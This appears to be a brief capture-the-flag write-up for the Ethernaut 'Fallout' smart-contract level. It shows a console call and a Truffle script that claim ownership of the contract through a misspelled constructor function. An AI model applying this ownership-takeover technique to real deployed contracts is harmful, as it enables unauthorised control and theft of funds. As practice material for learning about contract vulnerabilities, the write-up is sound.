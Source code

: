 ### The Exploit
**Method 0x01**

we can run the code in Developer Tools:
~~~
await contract.Fal1out();
~~~


**Method 0x02**

truffle script:
~~~
module.exports = async function(callback) {
	player='your address'
	Fallout='your instance address'
	sig=web3.eth.abi.encodeFunctionCall({
		name:'Fal1out',
		type:'function',
        inputs:[]},
        []
	)
	console.log(await web3.eth.sendTransaction({from:player,to:Fallout,data:sig}))
	callback();
}
~~~